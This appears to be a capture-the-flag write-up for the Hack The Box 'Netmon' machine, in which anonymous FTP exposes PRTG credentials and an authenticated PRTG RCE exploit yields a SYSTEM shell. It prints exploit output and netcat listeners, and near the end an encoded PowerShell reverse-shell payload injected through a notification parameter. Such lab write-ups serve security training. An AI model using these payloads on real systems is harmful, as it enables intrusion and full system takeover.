



`Box: Windows`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Scan`](#`Initial%20Nmap%20Scan`)
3. [`FTP Port 21 - Anonymous Access Allowed`](#`FTP%20Port%2021%20-%20Anonymous%20Access%20Allowed`)
4. [`SMB Access Denied`](#`SMB%20Access%20Denied`)
5. [`Web - PRTG Network Monitoring`](#`Web%20-%20PRTG%20Network%20Monitoring`)
6. [`Continue with FTP`](#`Continue%20with%20FTP`)
7. [`Privilege Escalation using CVE-2019-9276 - PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution`](#`Privilege%20Escalation%20using%20CVE-2019-9276%20-%20PRTG%20Network%20Monitor%2018.2.38%20-%20(Authenticated)%20Remote%20Code%20Execution`)
8. [`Beyond Root`](#`Beyond%20Root`)
9. [`Another Way to RCE the Box`](#`Another%20Way%20to%20RCE%20the%20Box`)

### `Box Info`
```
Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running, and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.
```

### `Initial Nmap Scan`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.152                       
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
```

A wide range of attack vector can be possible by looking at the initial nmap scan.

### `FTP Port 21 - Anonymous Access Allowed`
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# ftp 10.10.10.152            
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:ringbuffer): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49886|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49887|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
01-15-24  11:03AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49888|)
125 Data connection already open; Transfer starting.
01-15-24  11:03AM       <DIR>          Desktop
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> cd Desktop
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49889|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1195 PRTG Enterprise Console.lnk
02-03-19  12:18AM                 1160 PRTG Network Monitor.lnk
10-16-24  01:56AM                   34 user.txt
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49890|)
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************************|    34        0.99 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.98 KiB/s)
ftp> exit
221 Goodbye.

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# cat user.txt                
05b20d1**************
```

User flag captured using the FTP Anonymous Access. Sounds Interesting. But let's keep digging FTP

### `SMB Access Denied`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# smbclient --no-pass -L netmon.htb                         
session setup failed: NT_STATUS_ACCESS_DENIED
 
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# netexec smb 10.10.10.152 -u 'Guest' -p '' --shares
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [-] netmon\Guest: STATUS_ACCOUNT_DISABLED 

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# netexec smb 10.10.10.152 -u '' -p '' --shares 
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [-] netmon\: STATUS_ACCESS_DENIED 
SMB         10.10.10.152    445    NETMON           [-] Error getting user: list index out of range
SMB         10.10.10.152    445    NETMON           [-] Error enumerating shares: Error occurs while reading from remote(104)
 
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# netexec smb 10.10.10.152 -u '' -p '' --shares
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [-] netmon\: STATUS_ACCESS_DENIED 
SMB         10.10.10.152    445    NETMON           [-] Error getting user: list index out of range
SMB         10.10.10.152    445    NETMON           [-] Error enumerating shares: Error occurs while reading from remote(104)
 
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Netmon.htb]
└─# smbclient -L //10.10.10.152       
Password for [WORKGROUP\root]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

### `Web - PRTG Network Monitoring`


Other than login form, I ran GoBuster and Fuff but nothing comes out of it, So not positing the results here. 

### `Continue with FTP`

One of the old configuration file is located at the `ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak` which reveals credentials. You can do either `ls -la` OR `dir -a` to view hidden files using FTP.
```
# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:ringbuffer): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.


ftp> ls -la
229 Entering Extended Passive Mode (|||51100|)
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
10-16-24  01:55AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.


ftp> cd ProgramData
250 CWD command successful.


ftp> ls -la
229 Entering Extended Passive Mode (|||51101|)
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Application Data
12-15-21  10:40AM       <DIR>          Corefig
02-03-19  08:05AM       <DIR>          Desktop
02-03-19  08:05AM       <DIR>          Documents
02-03-19  12:15AM       <DIR>          Licenses
11-20-16  10:36PM       <DIR>          Microsoft
02-03-19  12:18AM       <DIR>          Paessler
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  08:05AM       <DIR>          Start Menu
02-03-19  12:15AM       <DIR>          TEMP
02-03-19  08:05AM       <DIR>          Templates
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.


ftp> cd Paessler
250 CWD command successful.


ftp> ls -la
229 Entering Extended Passive Mode (|||51102|)
125 Data connection already open; Transfer starting.
10-16-24  11:00PM       <DIR>          PRTG Network Monitor
226 Transfer complete.


ftp> cd PRTG\ Network\ Monitor
250 CWD command successful.


ftp> ls -la
229 Entering Extended Passive Mode (|||51104|)
125 Data connection already open; Transfer starting.
10-16-24  02:37AM       <DIR>          Configuration Auto-Backups
10-16-24  08:00PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
10-16-24  01:56AM       <DIR>          Logs (Web Server)
10-16-24  08:00PM       <DIR>          Monitoring Database
10-16-24  10:55PM              1210011 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
10-16-24  11:00PM              1738517 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.


ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||51114|)
150 Opening ASCII mode data connection.
100% |***************************************************************************************************************************|  1126 KiB    1.48 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:00 (1.46 MiB/s)
```

Upon inspecting the content of the `PRTG Configuration.old.bak` File,

```
<!--Snipped--!>
  <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
<!--Snipped--!>
```

However, If you look at the above `ls -la` command output, the old config file backup was taken in 2018. So at this point I guess the password to login to the PRTF Web Interface. I was successfully able to login with the password `PrTg@dmin2019`.




### `Privilege Escalation using CVE-2019-9276 - PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution`

```
# python exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.3 --lport 4444 --user 'prtgadmin' --password 'PrTg@dmin2019'
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.14.3 LPORT=4444 OUTPUT=/tmp/vpprwxdl.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/ringbuffer/Downloads/Netmon.htb/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/ringbuffer/Downloads/Netmon.htb/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.14.3\ELLAZLOA]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.14.3:4444 for the reverse shell!]
listening on [any] 4444 ...
[*] Incoming connection (10.10.10.152,50901)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (10.10.10.152,50901)
[*] Remaining connections []

```

On the NetCat Side
```
# nc -lvnp 4444                                                                      
listening on [any] 4444 ...
C:\Windows\system32>whoami
whoami
nt authority\system

```

get your root flag

### `Beyond Root`

So while solving this box, I forgot one thing and that is to grab `SAM`, `SYSTEM`, `SECURITY` or `SOFTWARE` registry hives. However, i did not have access to the `Windows\System32\Config` directory. 
Another interesting directory to checkout is `Panther` which put the log files for any automated installations.
```
ftp> pwd
Remote directory: /Windows/panther
ftp> ls -la
229 Entering Extended Passive Mode (|||49911|)
125 Data connection already open; Transfer starting.
02-03-19  08:04AM                45257 cbs.log
02-03-19  08:04AM                   68 Contents0.dir
02-03-19  08:05AM                   68 Contents1.dir
02-03-19  08:05AM                 5718 diagerr.xml
02-03-19  08:05AM                18188 diagwrn.xml
02-03-19  08:04AM                28812 MainQueueOnline0.que
02-03-19  08:05AM                27456 MainQueueOnline1.que
10-16-24  11:26PM               335872 setup.etl
02-03-19  08:05AM       <DIR>          setup.exe
02-03-19  08:05AM               317307 setupact.log
02-03-19  08:00AM                    0 setuperr.log
02-03-19  08:05AM               205056 setupinfo
02-03-19  08:05AM       <DIR>          UnattendGC
226 Transfer complete.

```

It is always a good practice to grab `Windows\WindowsUpdate.log` to see the current patches.

### `Another Way to RCE the Box`



Edit the "Ticket Notification" which allows the "Execute Program". Under the Execute program `Parameters` Section you can put the following and start the NetCat Listener.
```
test | powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

Now Save and Trigger the Test Notification from the Right icons.  On the NetCat Side
```
# nc -lvnp 4444                                                                      
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.152] 50413

PS C:\Windows\system32> whoami
nt authority\system
```